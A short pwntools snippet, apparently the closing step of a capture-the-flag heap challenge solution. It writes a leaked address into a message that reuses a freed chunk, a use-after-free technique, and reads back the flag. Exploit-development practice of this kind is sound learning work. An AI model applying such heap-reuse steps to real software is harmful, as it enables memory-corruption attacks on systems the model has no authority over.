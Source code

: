 ```py

# Leave a message (leaked address)
# The freed chunk will be reused
io.sendlineafter(b'(e)xit', b'L')
io.sendlineafter(b':', flat(leak))

# Got Flag?
warn(io.recvlines(2)[1].decode())
```
